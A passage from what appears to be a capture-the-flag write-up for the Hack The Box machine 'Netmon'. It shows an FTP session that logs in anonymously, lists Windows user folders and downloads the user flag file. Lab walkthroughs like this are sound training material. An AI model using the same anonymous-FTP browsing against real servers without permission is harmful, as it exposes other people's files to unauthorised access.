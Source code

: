 ```bash
kali@kali:~/boxes/netmon$ ftp netmon.htb
Connected to netmon.htb.
220 Microsoft FTP Service
Name (netmon.htb:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  12:18AM                 1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-03-19  08:08AM       <DIR>          Users
02-25-19  11:49PM       <DIR>          Windows
226 Transfer complete.
ftp> cd users
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-25-19  11:44PM       <DIR>          Administrator
02-03-19  12:35AM       <DIR>          Public
226 Transfer complete.
ftp> cd Public
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  08:05AM       <DIR>          Documents
07-16-16  09:18AM       <DIR>          Downloads
07-16-16  09:18AM       <DIR>          Music
07-16-16  09:18AM       <DIR>          Pictures
02-03-19  12:35AM                   33 user.txt
07-16-16  09:18AM       <DIR>          Videos
226 Transfer complete.
ftp> type user.txt
user.txt: unknown mode
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
WARNING! 1 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
33 bytes received in 0.02 secs (1.9489 kB/s)
ftp> 
```
On our box we read the user flag after we transfer it to our machine with `get`.
